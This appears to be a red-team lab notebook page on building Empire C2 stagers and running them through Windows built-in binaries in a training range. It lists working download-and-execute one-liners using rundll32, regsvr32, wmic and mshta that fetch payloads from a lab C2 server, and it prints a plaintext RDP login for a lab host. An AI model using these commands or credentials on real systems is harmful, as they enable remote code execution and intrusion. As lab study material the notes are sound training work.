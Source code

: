 #### Tags: [[12 - Command and Control (TA0011)]]

## Objectives

    Create different payloads for familiarity
    Test payloads from the range
    Use additional tools to enhance payloads
## Overview
This lab will focus on creating multiple payloads and then testing them in the student range. We will use various methods to gain familiarity with different techniques.

### Launch [[Empire C2#Create an Empire listener]] 

## [[PowerShell Stager with rundll32.exe]]

#### *Payload:* Create interactive HTTP Powershell Stager

![[Pasted image 20240317180009.png]]

#### *Execution Technique:* 
```markdown
# Executing Stager with rundll32.exe
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://10.254.252.3:8000/setup.ps1');")
```
##### Or we can copy the payload for execution via [[Enterprise Microsoft Exchange server#Interact with the Web Shell|ASPX Web Shell]] or PowerShell console
![[Pasted image 20240324025733.png]]

----
## [[SCT stager and execute with regsvr32.exe]]

#### *Payload:* Create a SCT stager
`xfreerdp +clipboard /cert-ignore /u:Gareth.Kilgallen /p:Hu825meapvsAq#Rx /v:wk01.draconem.corp`

![[Pasted image 20240317175954.png]]
#### *Execution Technique:* 
```markdown
# Executing Stager with regsvr32.exe
regsvr32 /s /n /u /i:http://10.254.252.3:8000/config.sct scrobj.dll
```

---
## [[WMIC stager and execute with wmic]]

#### *Payload:* Create WMIC Stager

![[Pasted image 20240317175936.png]]

#### *Execution Technique:* 
```markdown
# Executing Stager with wmic
wget http://10.254.252.2:8000/update.xsl -o update.xsl
wmic os get /format:"update.xsl"
```

---

## [[HTA stager and execute with mshta.exe]]

#### *Payload:* Create HTA Stager

![[Pasted image 20240317175917.png]]
#### *Execution Technique:* 
```markdown
# Executing Stager with mshta.exe
mshta.exe http://10.254.252.3:8000/app.hta
```

----

#### Notes | Bonus
- Create Links
	- Link to Heading
	- Create 2 - Payloads & Execution Tech 
- Bonus RT Sections 
	- Learn to deploy payload without RDP 
	- Learn to leverage Cobalt strike for payload creation

## Conclusion

